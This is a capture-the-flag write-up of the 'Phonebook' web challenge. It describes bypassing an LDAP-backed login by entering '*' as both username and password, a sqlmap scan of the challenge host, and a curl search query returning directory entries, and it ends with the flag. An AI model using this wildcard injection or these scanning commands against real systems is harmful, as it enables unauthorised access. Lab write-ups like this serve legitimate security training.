

# Phonebook

## Abstract
*Category* : **web challenge**<br/>
*Challenge name* : **Phonebook**<br/>
*Host* : `178.128.173.79:30846`<br/>
*Description* : Who is lucky enough to be included in the phonebook?<br/>
*Status* : **SOLVED**

## Walktrough
The home page presents a login:<br/>
<div style="width: 65%; height: 65%">

  
  
</div>  

If we inspect the page with developer tools we can see that a POST request to the `http://178.128.173.79:30846/login` URL is made.<br/>
This request submit a form with the `username` and `password` fields.<br/>
Let's test for SQL injection vulnerabilities with Sqlmap:<br/>
```console
sqlmap -u http://178.128.173.79:30846/login --data="username=*&password=*&form=submit" --method POST --dbs --batch
```
Unfortunately this approach does not give results but I noticed that by inserting the character `*` in both username and password fields, <br/>
the site redirects us to a search page.<br/>
The `*` char probably denotes that the login is done via LDAP as the message in the home page suggests.<br/>
From here we are able to submit search queries, for example using curl:<br/>
```console
curl 'http://178.128.173.79:30846/search' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux aarch64; rv:104.0) Gecko/20100101 Firefox/104.0' -H 'Accept: application/json, text/javascript, */*; q=0.01' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'X-Requested-With: XMLHttpRequest' -H 'Origin: http://178.128.173.79:30846' -H 'Connection: keep-alive' -H 'Referer: http://178.128.173.79:30846/' -H 'Cookie: mysession=MTY2NDU1MDgwNnxEdi1CQkFFQ180SUFBUkFCRUFBQUpfLUNBQUVHYzNSeWFXNW5EQW9BQ0dGMWRHaDFjMlZ5Qm5OMGNtbHVad3dIQUFWeVpXVnpaUT09fDWRageuovqH4rOpp1gy0xQ_NhjGpiWDrPdowWgHMvgG' --data-raw '{"term":"ab"}' | json_pp -json_opt pretty,canonical
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   735  100   722  100    13   9890    178 --:--:-- --:--:-- --:--:-- 10068
[
   {
      "cn" : "Jobey",
      "homePhone" : "607-345-0290",
      "mail" : "jolleyx@abc.net.au",
      "sn" : "Olley"
   },
   {
      "cn" : "Tab",
      "homePhone" : "360-678-3613",
      "mail" : "tzorenq@mit.edu",
      "sn" : "Zoren"
   },
   {
      "cn" : "Babette",
      "homePhone" : "709-363-0223",
      "mail" : "bcunio2h@macromedia.com",
      "sn" : "Cunio"
   },
   {
      "cn" : "Abagael",
      "homePhone" : "857-685-9711",
      "mail" : "aguideras@barnesandnoble.com",
      "sn" : "Guidera"
   },
   {
      "cn" : "Sabra",
      "homePhone" : "222-509-0396",
      "mail" : "sbrumham12@wordpress.com",
      "sn" : "Brumham"
   },
   {
      "cn" : "Aguie",
      "homePhone" : "302-693-4223",
      "mail" : "abaggaley14@geocities.com",
      "sn" : "Baggaley"
   },
   {
      "cn" : "Siouxie",
      "homePhone" : "215-132-7221",
      "mail" : "syesichev1p@mashable.com",
      "sn" : "Yesichev"
   },
   {
      "cn" : "Vale",
      "homePhone" : "547-901-0162",
      "mail" : "voconcannon2p@cdbaby.com",
      "sn" : "O' Concannon"
   }
]

```
After some test I notice that even the search page is vulnerable to LDAP injection,<br/>
from here is just a matter of testing in order to craft the perfect exploit (you can find it in the `exploit` subfolder ).<br/>
In the end we can launch our exploit and find the flag:<br/>
```console
python3 phonebook_exploit.py
HTB{d1rectory_h4xx0r_is_k00l'*}
```
<br/>

Remove the `'` and `*` char and we have our beloved flag! 🏴

